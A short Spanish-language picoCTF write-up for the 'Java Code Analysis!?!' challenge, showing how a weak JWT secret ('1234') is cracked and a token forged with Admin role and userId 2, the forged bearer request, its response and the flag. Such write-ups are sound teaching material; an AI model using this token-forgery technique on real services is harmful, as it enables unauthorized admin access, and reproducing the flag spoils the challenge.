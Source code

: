 ````````
```
# Java Code Analysis!?!


## Solucion
- loguearse como user user
- crackear token jwt resulto en la llave `1234`
- darle el role `Admin` al parecer no eraa todo si no el userId `2` era el admin
 ```
 {
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1679969214,
  "iat": 1679364414,
  "userId": 2,
  "email": "user"
}
```
- solicitar el pdf del libro
```
GET /base/books/pdf/5 HTTP/1.1
Host: saturn.picoctf.net:60178
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://saturn.picoctf.net:60178/
authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE2Nzk5NjkyMTQsImlhdCI6MTY3OTM2NDQxNCwidXNlcklkIjoyLCJlbWFpbCI6InVzZXIifQ.spIiXpUbc2fMUip4p_2eY53rMr_JKxsXYuRXnI54wlw
Connection: close
Cookie: PHPSESSID=lj3gcm06t7pt9nsbdvqd1uerm6
```

```
HTTP/1.1 200 
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Type: application/pdf
Content-Length: 939
Date: Tue, 21 Mar 2023 02:28:11 GMT
Connection: close
..
..

(picoCTF{w34k_jwt_n0t_g00d_602ce414})'
```
## Bandera
picoCTF{w34k_jwt_n0t_g00d_602ce414}